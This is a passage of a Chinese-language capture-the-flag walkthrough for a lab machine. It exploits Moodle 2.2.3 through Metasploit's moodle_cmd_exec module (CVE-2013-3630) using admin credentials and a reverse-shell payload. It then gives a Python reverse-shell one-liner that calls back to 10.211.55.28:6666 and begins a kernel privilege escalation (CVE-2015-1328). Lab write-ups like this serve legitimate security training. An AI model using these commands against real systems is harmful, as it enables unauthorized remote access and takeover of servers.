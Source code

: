 进去内容太多了，花了很多时间查看，图片红框显示和我前面使用dr_doak用户登陆邮箱发现的结果一致。
这是Moodle使用的2.2.3版本，搜索了网上的可用漏洞。

Moodle 2.2.3 exp cve   --> CVE-2013-3630 漏洞可利用！ 29324


15、此版本有许多漏洞利用，由于我们需要在目标计算机上进行外壳访问，因此我选择使用远程代码执行（RCE）漏洞利用。

使用我们的神器：MSF

msfconsole                        ---进入MSF框架攻击界面
search moodle                     ---查找 moodle类型 攻击的模块
use 0                             ---调用0  exploit/multi/http/moodle_cmd_exec调用攻击脚本
set username admin                ---设置用户名：admin
set password xWinter1995x!        ---设置密码：xWinter1995x!
set rhost severnaya-station.com   ---设置：rhosts severnaya-station.com
set targeturi /gnocertdir         ---设置目录： /gnocertdir
set payload cmd/unix/reverse      ---设置payload：cmd/unix/reverse
set lhost 192.168.4.231           ---设置：lhost 192.168.4.231（需要本地IP）
exploit  ----执行命令

use exploit/multi/http/moodle_cmd_exec
msf exploit(moodle_cmd_exec) > set rhost severnaya-station.com
msf exploit(moodle_cmd_exec) > set targeturi /gnocertdir
msf exploit(moodle_cmd_exec) > set username admin
msf exploit(moodle_cmd_exec) > set password xWinter1995x!

当我们执行后发现无法成功，是因为对方需要修改执行PSpellShell
https://www.exploit-db.com/exploits/29324
's_editor_tinymce_spellengine' => 'PSpellShell',


由于我们已经使用了管理员admin用户登录页面，由于使用的是powershell命令，需要在设置中修改：
Home / ▶ Site administration / ▶ Plugins / ▶ Text editors / ▶ TinyMCE HTML editor
来到此处，修改PSpellShell然后save！

然后重新exploit继续运行：获得shell

执行tty，因为获得的权限无框架：执行
python -c 'import pty; pty.spawn("/bin/bash")'     ---将shell进行tty

15、python反弹shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.211.55.28",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'



16、内核提权
uname -a 查看权限！
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux

谷歌搜索：Linux ubuntu 3.13.0-32 exploit
获得exp版本：37292
--------------------------------------------------
CVE(CAN) ID: CVE-2015-1328

overlayfs文件系统是一种叠合式文件系统，实现了在底层文件系统上叠加另一个文件系统。Linux 内核3.18开始已经加入了对overlayfs的支持。Ubuntu Linux内核在更早的版本就已加入该支持。
